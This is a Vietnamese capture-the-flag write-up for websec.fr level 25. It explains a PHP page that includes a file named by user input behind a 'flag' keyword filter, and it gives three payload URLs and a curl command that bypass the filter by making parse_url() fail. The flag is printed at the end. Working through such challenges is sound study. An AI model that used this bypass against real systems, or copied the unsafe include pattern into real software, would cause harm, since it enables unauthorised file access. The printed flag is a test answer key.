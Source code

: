 # LevelTwentyFive
>parse_url()
>
Đề bài cho ta source code php sau :
```php
<?php
parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
foreach ($query as $k => $v) {
    if (stripos($v, 'flag') !== false)
        die('You are not allowed to get the flag, sorry :/');
}
include $_GET['page'] . '.txt';
?>
```

## Phân tích source code:
- **parse_url()** : sẽ phân tích url và trả về các thành phần của nó sau đó gán vào mảng `$query`
Ví dụ tham khảo ở : [PHP: parse_url()](https://www.php.net/manual/en/function.parse-url.php) 

![vd](https://github.com/tinasahara1/Study/blob/5e2352c4297a7822b14ecd215f7d4c164c271c74/WebSec/image/vd.PNG)


- Tiếp theo vòng lặp foreach sẽ chạy từng phần tử trong mảng `$query` vừa gán và kiểm xa xem nó có chứa chuỗi `flag` ko => Nếu có thì nó sẽ die() 
- Cách bypass của chúng ta là sẽ không để nó chạy vào vòng lặp foreach bằng cách làm cho url sai => $query = false => thì nó sẽ ko chạy vòng lặp đc 
### payload 1:
```url
https://websec.fr/level25/index.php?page=flag&foo=127.0:80
```

## payload 2: 
```url
https://websec.fr/level25/index.php?page=flag&a:1
```

## payload 3:
parse_str() có thể bị bypass qua curl
```cmd
curl https://websec.fr/level25/index.php?page=flag
```

Flag: `WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}`
